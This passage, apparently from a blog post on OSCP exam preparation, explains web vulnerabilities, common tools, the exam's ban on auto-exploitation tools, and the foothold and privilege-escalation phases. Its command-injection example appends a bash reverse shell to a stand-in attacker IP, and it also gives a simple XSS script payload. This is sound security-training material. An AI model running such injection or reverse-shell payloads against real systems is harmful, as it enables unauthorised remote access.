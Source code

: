     ```
      http://target.com/vuln?ping=192.168.50.51 ; bash -i >& /dev/tcp/192.168.50.51/1337 0>&1
    ```
    
- **Cross-Site Scripting (XSS)**: Allows an attacker to inject custom
and potentially malicious javascript code that is then executed
by the browsers of all clients who connect to a particular site
or resource.
    
    ```
      <script> alert(1); </script>
    ```
    

Various tools are mentioned and showcased, such as

- **gobuster**, for enumerating **virtual hosts**, directories, files and
domain names.
- **sqlmap**, for automatically exploiting SQL injections.
- **BurpSuite**, for creating custom HTTP requests and analyzing the
relative HTTP responses.

When it comes to tools, something I will also come back to at the
end of the blog post, the important thing to understand is that
during the learning you can use all type of tools, but

**In the OSCP exam auto-exploitation tool are not allowed**

In the context of web application, this means that for example
you can use **gobuster**, as it only automates the enumeration
process, but you cannot use **sqlmap**, as it would automate the
exploitation process. In OSCP all exploitation has to be done
manually, meaning that you have to be aware of every single
command and payload that is being sent to the server. The only
caviat to this is when we use full fledged exploits that attack a
specific application. We're allowed to use exploits taken from
[exploit-db](https://www.exploit-db.com/). I will come back to this point in the **Using Existing
Exploits** section.

When hacking a server we typically have two steps:

1. The first step is called **foothold**, because it has to do with
understanding how to get inside the server. To this end, one
must study various network protocols such as the **TCP** and **HTTP**
network protocols, as well as all the various web
vulnerabilities that we already discussed. Once we find a
vulnerability and we're able to exploit it to get a **reverse
shell**, we are then able to execute code within the remote
server.
2. At this point the second step comes in. This step is called
**privilege escalation**, because it encompasses all the different
ways an attacker can move from a low privileged account to an
account with higher privileges.

---
